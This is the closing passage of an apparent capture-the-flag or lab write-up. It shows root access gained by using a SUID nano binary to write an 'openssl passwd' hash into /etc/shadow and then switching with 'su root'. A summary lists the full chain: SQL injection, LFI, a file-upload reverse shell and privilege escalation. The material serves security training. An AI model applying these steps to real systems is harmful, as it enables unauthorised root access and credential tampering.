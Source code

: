 ```
openssl passwd -1 root
```

Edit `/etc/shadow` with Nano:

```
/usr/bin/nano /etc/shadow
```

<img width="1854" height="1048" alt="Screenshot From 2025-05-22 18-34-04" src="https://github.com/user-attachments/assets/4a90be94-2f23-4337-ac4c-ec7e9b271529" />

Then switch to root:

```
su root
```

<img width="1854" height="1048" alt="Screenshot From 2025-05-22 18-37-15" src="https://github.com/user-attachments/assets/d19dd301-07df-4667-b1c2-8f0eb1026a27" />

---

## Conclusion

* Enumeration → exposed services.
* SQLi → dumped DB, recovered credentials.
* LFI → enumerated system.
* File upload → reverse shell.
* SUID Nano → privilege escalation.

Rooted successfully. ✅

---
